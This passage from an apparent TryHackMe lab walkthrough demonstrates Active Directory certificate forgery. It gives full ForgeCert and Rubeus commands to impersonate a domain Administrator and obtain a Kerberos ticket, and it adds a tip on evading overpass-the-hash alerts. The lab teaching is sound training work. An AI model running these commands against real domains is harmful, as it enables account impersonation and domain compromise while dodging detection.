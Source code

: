 **Victim(cmd) - THMWRK1**

```
C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

Parameters explained:

* CaCertPath - The path to our exported CA certificate.
* CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
* Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
* SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
* NewCertPath - The path to where ForgeCert will store the generated certificate.
* NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:

**Victim(cmd) - THMWRK1**

```
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

Let's break down the parameters:

* /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* /certificate - Path to the certificate we have generated
* /password - The password for our certificate file
* /outfile - The file where our TGT will be output to
* /domain - The FQDN of the domain we are currently attacking
* /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

**Victim(cmd) - THMWRK1**

```
C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

**Victim(cmd) - THMWRK1**
